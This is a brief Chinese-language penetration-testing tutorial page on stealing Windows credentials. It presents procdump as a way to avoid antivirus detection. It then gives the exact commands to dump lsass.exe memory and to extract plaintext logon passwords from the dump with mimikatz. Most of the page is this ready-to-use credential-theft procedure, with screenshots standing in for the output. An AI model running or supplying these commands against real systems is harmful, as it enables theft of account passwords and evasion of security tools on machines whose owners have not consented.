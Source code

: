 ```yaml
---
title: "4.1.2 procdump+mimikatz"
id: zhfly3417
---
```


### 4.1.2 procdump+mimikatz

Procdump 是微软官方发布的一款调试工具，因此不会被各种杀毒软件查杀。可使用 procdump 加 mimikatz 来躲避杀软检测。

官方下载地址:https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump

#### 1、使用 procdump 将目标的 lsass.exe 转储成 dmp 文件

```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp 
```

![image](../img/516bf27b9df82b1f673aeddaf860d3fb.png)

#### 2、使用 mimikatz 从转储的 lsass.dmp 中来读取明文密码

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" 
```

![image](../img/f018c47bbe86f48f90935618b71f0695.png)